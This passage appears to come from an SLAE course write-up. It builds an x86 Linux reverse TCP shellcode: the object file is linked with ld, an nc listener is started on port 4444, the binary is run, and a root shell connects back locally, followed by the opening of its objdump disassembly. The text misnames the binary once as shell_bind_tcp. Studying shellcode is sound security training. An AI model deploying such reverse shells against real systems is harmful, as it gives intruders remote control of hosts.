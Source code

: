 With the code assembled, the next step is to link the `shell_reverse_tcp.o` file with `/usr/bin/ld`. The `-m` flag specifies that the `elf_i386` emulation linker should be used.

```shell
root@kali:~/workspace/SLAE/# ld -m elf_i386 shell_reverse_tcp.o -o shell_reverse_tcp
```
Before `shell_reverse_tcp` is executed, a `nc` or `ncat` listener should be started in a separate terminal window which will be ready to accept the connection and shell spawned upon the successful connection of `shell_reverse_tcp`. The listening terminal will act as the "remote system" to which `shell_reverse_tcp` is specfied to connect in this demonstration. The command shown below instructs the remote system to listen for incoming connections on all interfaces, TCP port 4444.

```shell
root@kali:~/workspace/SLAE# nc -lvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

With a listener set up, `shell_reverse_tcp` can be run.

```shell
root@kali:~/workspace/SLAE# ./shell_reverse_tcp
```

In the listening terminal window, a connection is received.

```shell
root@kali:~/workspace/SLAE# nc -lvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:51190.
id 
uid=0(root) gid=0(root) groups=0(root)
ls | grep reverse
shell_reverse_tcp
shell_reverse_tcp.nasm
shell_reverse_tcp.o
```

Success!

#### Examining The Shellcode
As `shell_bind_tcp` has been compiled and linked and is functioning as a standalone program, it should now be disassembled into opcodes using `/usr/bin/objdump` for further examination. Using the command shown below, the operation codes can be examined for any `NULL` characters. The output has been truncated to conserve space.

```shell
root@kali:~/workspace/SLAE# objdump -d ./shell_reverse_tcp -M intel

./shell_reverse_tcp:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
 8049000:       31 db                   xor    ebx,ebx
 8049002:       f7 e3                   mul    ebx
 8049004:       52                      push   edx
 8049005:       6a 01                   push   0x1
 8049007:       6a 02                   push   0x2
 8049009:       89 e1                   mov    ecx,esp
 804900b:       fe c3                   inc    bl
 804900d:       b0 66                   mov    al,0x66
 804900f:       cd 80                   int    0x80
 8049011:       89 c3                   mov    ebx,eax
```